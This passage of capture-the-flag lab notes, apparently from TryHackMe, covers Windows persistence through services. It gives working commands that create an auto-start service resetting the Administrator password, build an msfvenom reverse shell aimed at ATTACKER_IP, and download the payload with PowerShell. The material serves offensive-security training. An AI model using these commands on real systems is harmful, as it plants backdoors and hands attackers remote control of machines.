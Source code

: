 ```
C:\flags>.\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```

# Abusing Services
---

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

## Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

**Note:** There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to`Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the`exe-service` format in msfvenom:


```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

You can then copy the executable to your target system, say in`C:\Windows` and point the service's binPath to it:

```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

This should create a connection back to your attacker's machine.

```
powershell -ExecutionPolicy Bypass -Command `
 "Invoke-WebRequest -Uri http://IP:8000/rev-svc.exe `
 -OutFile C:\Windows\Temp\rev-svc.exe"

```
